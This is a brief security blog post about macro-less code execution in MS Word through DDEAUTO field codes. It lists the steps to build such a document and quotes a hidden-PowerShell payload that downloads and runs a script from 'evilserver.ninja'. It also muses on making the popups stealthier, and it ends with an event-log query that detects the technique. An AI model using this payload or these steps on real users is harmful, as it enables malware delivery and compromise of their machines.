 ```yaml
---
layout: post
title: "Code Execution in MSWord"
date: 2017-10-11
---
```

I read about a cool way to get code execution in MSWord from [SensePost](https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/ )'s Saif El-Sherei and later read about a way to detect it from [SecurityForRealPeople](https://www.securityforrealpeople.com/2017/10/exploiting-office-native-functionality.html#more)'s David Longenecker. 
Saif does a good job of explaining the steps in his post, but the basic setup is: 
1. <code> Insert </code> tab -> Quick Parts -> <code> Field </code>
2. choose <code> =(Formula) </code> and click ok
3. right-click on <code> !Unexpected End of Formula </code> and choose <code> Toggle Field Codes </code>
4. change the Field Code to contain:
    <p> <code> {DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"} </code>
5. save the document and then open it
6. you will get two prompts to click through and then calc will open

The possibilities here are endless. Saif's proof of concept video in the post uses powershell to download an empire launcher
   <p> <code> { DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://evilserver.ninja/pp.ps1');powershell -e $e "}
</code>
I think depending on the access I had on the machine, I would change the syntax to be more stealthy, so the popup doesnt raise any red-flags with the user. 

Execution is lots of fun, but improving defenders and showing them how to find the cool techniques is really where the money is made. 

I drilled down on this particular code execution with the Powershell command below. It will differ with environment and context:
  <p>  <code> Get-EventLog -Log "OAlerts" -Newest 5 | where {$_.eventID -eq 300} | format-list -Property Message</code>
